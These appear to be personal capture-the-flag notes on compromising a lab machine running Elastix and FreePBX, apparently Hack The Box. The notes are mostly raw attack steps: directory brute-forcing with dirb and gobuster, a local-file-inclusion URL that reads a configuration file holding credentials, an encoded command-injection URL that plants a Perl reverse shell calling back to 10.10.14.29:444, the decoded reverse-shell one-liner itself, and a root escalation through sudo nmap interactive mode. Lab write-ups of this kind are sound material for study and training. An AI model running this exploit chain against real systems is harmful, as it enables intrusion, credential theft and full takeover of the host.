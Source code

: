 elastics

input_user
input_pass

apache 2.2.3 Struts
openssh 4.3 dos attack
esmtp postfix 5.5.2
asterisk 1.8.7
freepbx 2.5

elastixSession=799um53ehhi9c077ralc1s5fn7
testing=1

https://www.securityfocus.com/archive/1/533728

dirb http://10.10.10.7/ -f  /usr/share/wordlists/dirb/common.txt

gobuster dir -k -u https://10.10.10.7/ -w /usr/share/wordlists/dirb/big.txt

freepbx 2.8.1.4
elastix ?

Exploit:

LFI vuln:
https://www.exploit-db.com/exploits/37637

https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

jEhdIekWmdjE

/usr/share/webshells/php/php-reverse-shell.php

from freepbx.py use this to call extension 233 

description:

https://www.offensive-security.com/vulndev/freepbx-exploit-phone-home/

https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.29%3a444%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A

perl -MIO -e $p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.14.29:444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;

then check `sudo -l` to see that nmap is allowed.

so:

`sudo nmap --interactive` then `!sh` to become root
